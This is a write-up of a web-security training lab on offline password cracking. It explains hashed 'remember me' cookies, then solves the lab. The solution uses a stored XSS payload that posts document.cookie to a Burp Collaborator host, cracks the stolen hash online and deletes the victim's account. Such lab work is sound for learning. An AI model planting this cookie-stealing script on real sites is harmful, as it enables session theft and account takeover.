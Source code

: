 Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as XSS, an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that.

If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed.

Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption.

## Steps to solve lab
### Title - Offline password cracking

**Desc** - This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

**Creds** - 
- Your credentials: `wiener:peter`
- Victim's username: `carlos`

1. As the lab description says that there is a XSS vulnerability in the comment functionality of the website, so we have to go to one of blogs and try to inject the below payload to get the users "stay-logged-in" cookie.
**Payload**  -
```js
<script> 
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { 
method: 'POST', 
mode: 'no-cors', 
body:document.cookie 
}); 
</script>
```

**Copy the collaborator server domain from burp as follows** - 
![[authentication7.png]]

**Paste in the comment as follows** - 
![[authentication8.png]]

**Got the carlos "stay-logged-in" cookie** - 
![[authentication9.png]]

**It is base64 encoded as we decoded in burp decoder** - 
![[authentication10.png]]
As the lab description says that, the hash of password of user stored in "stay-logged-in" cookie. 

**We got the password in plaintext after decrypting it with [crackstation](https://crackstation.net/)
![[authentication11.png]]

2. Login with the credentials and deleting the account of carlos.
![[authentication12.png]]
